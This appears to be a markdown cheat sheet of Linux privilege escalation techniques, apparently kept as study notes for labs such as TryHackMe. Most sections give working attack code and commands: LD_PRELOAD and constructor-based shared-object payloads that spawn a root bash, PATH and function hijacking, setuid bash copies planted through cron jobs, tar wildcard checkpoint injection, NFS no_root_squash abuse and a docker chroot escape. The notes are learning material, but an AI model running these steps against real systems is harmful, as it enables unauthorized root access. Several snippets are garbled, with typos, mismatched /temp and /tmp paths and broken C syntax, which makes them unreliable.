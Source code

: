 ## LINUX PRIVILEGE ESCALATION
			    
## BASIC STEPS TO CHECK

1. ENUMERATION
2. KERNAL EXPLOITS
3. WEAK PASSWORDS AND FILE PERMISSIONS
4. IMPROPER SUDO PERMISSIONS
5. IMPROPER SUID PERMISSIONS
6. OTHER SUID VULNERABILITIES
7. ESCALATION USING CAPABILITIES
8. SCHEDULED TASKS
9. NFS ROOT SQUASHING
10. DOCKER

## ENUMERATION

I.For the linux privilege escalation the automated scripts are :
1.Linpeas
2.LinEnum
3.Linux-privilege-suggester
4.Linuxprivchecker

II.For sudo exploit:
the commands used ==> sudo -l
the resources ==> gifobins 

III.For the file search inside a directory we can use dirsearch tool it 
available in github:maurosoria/dirsearch

## KERNEL EXPLOIT

I.Command: id,uname are used gather the information about the systems and
user, check the versions of the kernel,os in exploitdb like there exit
any vulnerabilities like dirty cow.

## WEAK PASSWORD AND FILE PERMISSIONS

I.Check the /etc/shadow is readable if it is readable the we can crack the
hash to gain the password.

II.check for weak file permission to exploit: sudo -l.

## IMPROPER SUDO PERMISSIONS

I.TryHackMe room : Sudo Security Bypass
if the user donot have access for the bash shell this exploit can occur
exploitdb ==> sudo 1.8.27 - Security bypass

II.For ssh key privilege escalation:
1. In command prompt type:
find / -name authorized_keys 2> /dev/null
2. In a command prompt type:
find / -name id_rsa 2> /dev/null

III.Privilege escalation using the LD_PRELOAD:

code(shell.c) :
```
#include<stdio.h>
#include<sys/types.h>
#include<stdlib.h>

void _init(){
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/bash");
}
```

command to excute the above code:
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
ls
sudo LD_PRELOAD=/home/user/shell.so apache2

## IMPROPER SUID PERMISSIONS

I.To find the suid bit is set:
command:
	find / -type f -perm -04000 -ls 2>/dev/null
now look the output for the suid bit set and guess which is vulnerable we 
can use the gtfobins for this purposes.

## OTHER SUID VULNERABILITIES

I.Vulnerability based on the shared object injection:
	It also depenpence upon the suid bit, if the suid bit is set for 
the shared object file(.so) it may be vulnerable where an attacker exploits
the way a program loads shared libraries (.so files in Linux) to execute
arbitrary code. It is similar to DLL Injection in Windows.
	First find the suid bit that are said for the machine:
	the commment
		find / -type f -perm -04000 -ls 2>/dev/null now look 
.so files
	To analyse the .so files we can use the strace comment to know what
it is doing 
	The comment
		strace <file_location> 2>&1
	to look for the more easier
	strace <file_location> 2>&1 | grep -i -E "open|access|no such file"
by any usable file or content have found overwrite if the file is in user
directory with read write permissions
overwrite these with malicious code results into the privilege escalation
the code for the injection is:
filename:libcalc.c

```
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));
void inject(){
	system("cp /bin/bash /temp/bash && chmod +s /temp/bash && /temp/bash
-p");
}
```

the comment to run this:
gcc -shared -fPIC -o <location of .so file> <location of our file>
now we gain root access.

II.Vulnerabilities in the suid :
1.By using the suid we can gain the access to the root 
2.And the common suid dependent in the web server are the nginx 
vulnerabilitites that is the nginx is reverse proxy server and high 
performance server,the weak permission in the log file leads to the 
vulnerability and there should be suid bit in sudo simultaneously to this
work

The command for the version of the nginix is:
	dpkg -l | grep nginx
if the version is less than or equal to 1.6.2 then there exits the 
vulnerability

steps to exploit the vulnerability of nginx:
1.First look at the log files of the nginx in www-data using the command
ls -la /var/log/nginx if the any log file that runs on root and have 
execute permission leads to exploit
2.By run the vulnerability exploit file in the exploitdb the symbolic 
link is created and starting or restarting the nginx result as to the
root but suid is still same as www-data
	The command to restart :invoke-rc.d nginx rotate >/dev/null 2>&1

III.Vulnerability in the environmental variable:
Environment variable: The variable that are available system wide and are
inherited by all the spot child process and shells.
the comment to look environment variable: env

Steps:
1.Search for the suid bit set for the environmental variables(-env).
2.Inject the malicious code for the environmental variable, if it run a 
service then inject malicious services.
example file:/tmp/service.c
int main(){ setuid(0);setgid(0); system(/bin/bash),return 0;}

compile: gcc /temp/service.c -o /temp/service
then , export PATH=/temp:$PATH
then, <location of env>

or function:
command:
```
function /usr/sbin/services() {cp /bin/bash /tmp &&  chmod +s /tmp/bash
&& /temp/bash -p;}
```

```
export -f /usr/sbin/service
```

```
/usr/local/bin/suid-env2
```

## ESCALATION USING CAPABILITIES

I.Instead of giving a program full root privileges via setuid, Linux 
capabilities allow assigning specific privileges. These are managed via 
setcap and checked using getcap.

The getcap command in Linux is used to display file capabilities assigned 
to a binary or file.
example: 
```
getcap -r / 2>/dev/null
```

python code for making as root:

```
import os;
os.setuid(0);
os.system("/bin/bash");
```

these vulnerability used in tar,python,openssl,perl,python.

## SCHEDULED TASKS

I. Most commonly scheduled tasks are known as cron job
It is a task that executed by the root according to the conditions
command to show the cron job or crontab:
	cat /etc/crontab
resourses: https://github.com/swisskyrepo/PayloadsAllTheThing

similar timer for executing a service or file based on timers
command to display it : systemctl list-timers --all

II.Steps to escalate the cronjob(if the file not found in first path):
command: 1.echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > <location>
	 2.chmod +x <location>
	 3./tmp/bash -p

III.Cron wildcards:
wildcard(*) is a replace a something,if a cronjob contains a cronwildcard
it could be vulnerable
Steps: this works on the (tar)
1.create a malicious file(ex: runme.sh)
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > runme.sh
2.touch <complete location from home>/--checkpoint=1
3.touch <complete location from home>/--checkpoint-action=exec=sh\runme.sh
4./tmp/bash -p

here it replace the asteric(*) in the cron wildcards in the cronjobs

IV.other method for cronjobs(if the file is found):
Steps:
1.echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> <location of cron
tab file>
2./tmp/bash -p

## NFS ROOT SQUASHING

I.The no_root_squash means it sharable and can be mount in simple words
it has root access
to find that run cat /etc/exports 
then find the no_root_squash folder

Step(run in your computer):
1.showmount -e <ip> // this shows the no_root_squash_folder
2.mkdir /tmp/mountme
3.mount -o rw,vers=2 <ip>:/tmp /tmp/mountme
4.echo 'int main() { setgid(0), setuid(0), system("/bin/bash"); return 0
;}' > /tmp/mountme/x.c
5.gcc /tmp/mountme/x.c -o /tmp/mountme/x
6.chmod +s /tmp/mountme/x
now move to virtual machine or victim computer:
7.cd /tmp
8. ./x

## DOCKER

Steps(if the user has docker permissions):
1.docker run -v /:/mnt --rm -it bash chroot /mnt sh

